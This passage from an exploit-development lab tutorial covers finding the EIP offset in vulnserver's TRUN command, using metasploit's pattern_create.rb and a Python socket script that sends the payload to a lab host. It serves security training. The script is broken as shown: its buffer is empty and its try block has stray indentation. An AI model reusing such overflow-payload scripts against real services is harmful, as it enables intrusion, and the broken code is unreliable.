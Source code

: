 - Talking about finding the offset, we will be looking for where we can overwrite the EIP
- Luckily metasploit has a tool for these and  it is located under the `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` 
- this tool will generate a payload  that we are going to be sending to immunity and vulnserver

```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

![](https://i.imgur.com/BFPYS3f.png)

- Now we can copy this output and modify the script we used in fuzzing to these :

```python
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = ""

    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()

    except:
        print ("Error Connecting to the server")
        sys.exit()
```
